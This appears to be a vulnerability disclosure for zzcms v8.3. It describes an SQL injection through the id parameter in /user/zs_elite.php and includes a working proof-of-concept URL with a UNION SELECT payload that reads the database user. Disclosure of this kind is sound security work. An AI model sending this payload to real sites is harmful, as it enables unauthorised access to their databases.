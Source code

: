 ### ZZCMS V8.3 SQL injection in /user/zs_elite.php line 48 via id parameter
## Vulnerability CMS and version
zzcms v8.3   Download link:http://www.zzcms.net/download/zzcms8.3.zip
## Triggering conditions
Log in to access the zs_elite.php page
## Vulnerability details
in CMS /user/zs_elite.php line 48,id parameter value comes from $_REQUEST function that can bypass cms security filtering.
![](https://github.com/seedis/zzcms/blob/master/image/11.png)
The value of the id parameter is finally brought to line 118 [/user/zs_elite.php], and the final SQL statement is executed, resulting in SQL injection.
![](https://github.com/seedis/zzcms/blob/master/image/22.png)
## POC
```
http://192.168.30.216/user/zs_elite.php?id=-11' union select 1,'test',user(),4,5%23&page=1
```
![](https://github.com/seedis/zzcms/blob/master/image/33.png)
